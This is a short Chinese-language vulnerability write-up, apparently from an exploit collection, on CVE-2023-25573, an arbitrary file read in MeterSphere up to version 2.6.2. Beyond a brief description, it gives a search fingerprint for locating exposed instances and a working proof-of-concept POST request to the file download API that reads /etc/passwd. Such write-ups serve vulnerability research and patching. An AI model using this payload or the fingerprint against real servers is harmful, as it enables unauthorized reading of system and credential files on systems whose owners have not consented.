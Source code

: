 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

MeterSphere 是一站式开源持续测试平台, 涵盖测试跟踪、接口测试、UI 测试和性能测试等功能，全面兼容 JMeter、Selenium 等主流开源标准。

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包。

## 漏洞影响

```
Metersphere <=2.6.2
```

## 网络测绘

```
body="Metersphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

验证POC

```
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![image-20230424163512801](images/image-20230424163512801.png)